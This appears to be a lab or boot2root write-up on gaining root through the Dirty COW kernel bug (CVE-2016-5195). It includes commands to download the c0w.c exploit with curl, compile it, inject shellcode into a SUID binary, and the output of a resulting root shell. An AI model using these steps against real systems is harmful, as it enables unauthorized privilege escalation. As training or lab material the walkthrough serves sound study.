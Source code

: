 # Root privilege escalation - Method 3: Dirty cow (shellcode injection)

## Dirty COW (Copy-On-Write)

### Details

[<img src="images/dirtycow.png" align="right" width="50%">](https://www.youtube.com/watch?v=kEsshExn7aE)

A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings.

The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016.

Impact

- An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
- This flaw allows an attacker with a local system account to modify on-disk binaries, bypassing the standard permission mechanisms that would prevent modification without an appropriate permission set.

### Exploit: shellcode injection into a SUID file using PTRACE_POKEDATA

| Link                                                                     | Usage | Description     | Family          |
| ------------------------------------------------------------------------ | ----- | --------------- | --------------- |
| [c0w.c](https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54) | ./c0w | SUID-based root | PTRACE_POKEDATA |

- This exploit is a `PTRACE_POKEDATA` variant of `CVE-2016-5195` (dirtycow vulnerability).
- It gives the user root by injecting shellcode into a SUID file.

### How to

```shell
# Download and compile the exploit
curl https://gist.githubusercontent.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c > c0w.c
```

Edit c0w.c:

- (un)comment correct the correct payload (x64/x86).
- [optional] replace `char suid_binary[] = "/usr/bin/passwd";` with `/home/zaz/exploit_me`

Then compile `c0w.c`, execute it and execute the `suid_binary`

```
gcc -pthread c0w.c  -o c0w

./c0w
     (___)
     (o o)_____/
      @@ `     \
       \ ____, //home/zaz/exploit_me
       //    //
      ^^    ^^
  DirtyCow root privilege escalation
  Backing up /home/zaz/exploit_me to /tmp/bak
  mmap b7fd8000

  madvise 0

  ptrace 0

./exploit_me

# whoami
  root
```

or run:

```shell
./scripts/exploits/dirtycow_PTRACE_POKEDATA.sh
```

# DON'T FORGET TO RESTORE YOUR <suid_binary> AFTER RUNNING THE EXPLOIT!

mv /tmp/bak <suid_binary>

## Sources

### Vulnerability

- [Dirty Cow - Vulnerability Details](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)

### Exploit

- [A PTRACE_POKEDATA variant of CVE-2016-5195](https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54)
